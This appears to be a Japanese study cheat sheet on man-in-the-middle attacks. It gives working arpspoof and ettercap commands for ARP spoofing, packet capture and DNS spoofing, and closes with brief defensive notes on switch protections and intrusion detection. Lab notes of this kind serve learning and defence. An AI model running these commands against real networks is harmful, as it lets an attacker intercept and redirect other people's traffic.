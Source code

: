 # 中間者攻撃（MITH、Man In The Middle）

## 基礎

### apr キャッシュ表示

Windows でも Linux でも使える

```shell
arp -a
```

### ARP スプーフィング

```shell
# パケット転送を有効にする
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

```shell
# ルーターのARPキャッシュへの攻撃
arpspoof -i <interface> -t <IP1(router)> <IP2(victim)>

# 別のシェルで、同時に実行する
# VictimのARPキャッシュへの攻撃
arpspoof -i <interface> -t <IP2(victim)> <IP1(router)>
```

Windows ならこれで成功するが、Linux を Victim とした実験では、Victim 側で下記の操作をしないとキャッシュが更新されなかった。  
後述の ettercap による ARP スプーフィングは下記の操作なしでも成功する。

```shell
# ARPを受け入れる
sudo sysctl -w net.ipv4.conf.all.arp_accept=1
# キャッシュをクリアする
sudo ip -s -s neigh flush all
```

## ettercap

スラッシュの意味  
/IP/サブネット範囲（空白の場合は単一 IP）/

### ARP スプーフィング

```shell
sudo ettercap -T -M arp:remote /TargetIP// GatewayIP//

# パケットをキャプチャしてpcapファイルに保存するオプション
sudo ettercap -T -M arp:remote -w capture_file.pcap /TargetIP// GatewayIP//
```

### DNS スプーフィング

```shell
sudo nano /etc/ettercap/etter.dns
```

himitu.com A 192.168.1.100  
\*.himitu.com A 192.168.1.100

```shell
# IPフォワーディング有効化が必要
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

```shell
sudo ettercap -T -q -i eth0 -M arp /192.168.11.4// /192.168.11.1// -P dns_spoof
```

コマンドにする必要がなければ、GUI で dns_spoof モジュールを Active にする方が楽。

## セキュリティ視点

- Windows は ARP スプーフィングに対してかなり脆弱
- ARP 攻撃の防御機能が付いているスイッチングハブを使えば、攻撃パケットがターゲットまで到達しない
- ネットワーク侵入検知システムで ARP 攻撃を検出するのが有効
